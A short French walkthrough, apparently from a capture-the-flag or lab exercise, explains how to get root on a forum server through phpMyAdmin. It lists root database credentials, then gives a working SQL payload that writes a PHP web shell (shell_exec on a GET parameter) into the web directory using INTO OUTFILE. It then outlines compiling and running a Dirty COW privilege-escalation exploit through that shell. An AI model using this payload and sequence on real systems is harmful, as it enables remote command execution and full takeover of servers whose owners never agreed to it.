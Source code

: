 
#### Le but ici est de faire une dirtycow via SQL.

Il faut pour cela se connecter sur l'interface de phpmyadmin ( credentials : root / Fg-'kKXBj87E:aJ$ )

1/ Creer une backdoor permettant d'executer du code via phpmyadmin ( Dossier vise : /var/www/forum/templates_c ) *
2/ Creer un fichier source en C contenant la dirtycow ( CF write_dirty.sql )
3/ Via la backdoor, compiler le fichier c ( cc toto.c -lcrypt -lpthread )
4/ L'executer ( ./a.out some_password ) ; attendre quelque secondes ( Une dizaine semble suffir )
5/ Se connecter avec les credentials root / some_password


*
```sql
; Rappel : Creer une backdoor

INSERT INTO
	`mlf2_pages`
	(
		`order_id`,
		`title`,
		`content`,
		`menu_linkname`,
		`access`
	)
	VALUES
		(
			 0,
			 "",
			 '<? echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>',
			 "",
			 0
		);

SELECT
	`content`
FROM
	`mlf2_pages`
WHERE
	id = 1
INTO OUTFILE
	"/var/www/forum/templates_c/index.php"
```
